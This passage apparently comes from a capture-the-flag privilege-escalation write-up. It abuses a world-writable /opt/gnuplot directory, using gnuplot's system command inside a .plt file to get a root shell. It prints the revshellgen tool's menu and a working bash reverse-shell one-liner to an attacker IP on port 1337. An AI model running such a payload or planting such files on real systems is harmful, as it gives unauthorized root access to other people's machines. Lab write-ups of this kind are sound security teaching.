 It seems that this directory's permissions are misconfigured: we don't have `read` access, but we have both `write` and `execute`! As a result, if we manage to create a `.plt` file containing reverse shell code within the `/opt/gnuplot`, we will be able to get a `root` shell back. 

Before doing that, let's find out what <a href="http://gnuplot.info/docs_5.5/loc68.html" data-proofer-ignore>**gnuplot**</a> is:

> _**Gnuplot** is a portable command-line driven graphing utility for Linux, OS/2, MS Windows, OSX, VMS, and many other platforms._

Upon looking at the <a href="http://gnuplot.info/docs_5.5/Commands.html" data-proofer-ignore>**Commands**</a> section, we see this:

![](gnuplot_commands.png)

The <a href="http://gnuplot.info/docs_5.5/loc17674.html" data-proofer-ignore>**shell**</a> command's descriptions mentions: 

> _The **shell** command ignores anything else on the gnuplot command line. If instead you want to pass a command string to a shell for immediate execution, use the <a href="http://gnuplot.info/docs_5.5/loc2298.html" data-proofer-ignore>**system**</a> function or the shortcut **!**_

The <a href="http://gnuplot.info/docs_5.5/loc18483.html" data-proofer-ignore>**system**</a> seems more appropriate for getting a reverse shell:

> _**system "command"** executes "command" in a subprocess by invoking the operating system's default shell. If called as a function, **system("command")** returns the character stream from the subprocess's stdout as a string. One trailing newline is stripped from the resulting string if present._

We can try creating a `.plt` file using the **system** command in order to get a reverse shell. First, we can get the revshell code via [revshellgen](https://github.com/t0thkr1s/revshellgen):

```bash
/opt/revshellgen/revshellgen.py

---------- [ SELECT IP ] ----------

[   ] 172.31.150.94 on eth0
[   ] 172.17.0.1 on docker0
[ x ] 10.10.14.16 on tun0
[   ] Specify manually

---------- [ SPECIFY PORT ] ----------

[ # ] Enter port number : 1337

---------- [ SELECT COMMAND ] ----------

[ x ] unix_bash
[   ] unix_java
[   ] unix_nc_mkfifo
[   ] unix_nc_plain
[   ] unix_perl
[   ] unix_php
[   ] unix_python
[   ] unix_ruby
[   ] unix_telnet
[   ] windows_powershell

---------- [ SELECT ENCODE TYPE ] ----------

[ x ] NONE
[   ] URL ENCODE
[   ] BASE64 ENCODE

---------- [ FINISHED COMMAND ] ----------

bash -i >& /dev/tcp/10.10.14.16/1337 0>&1
```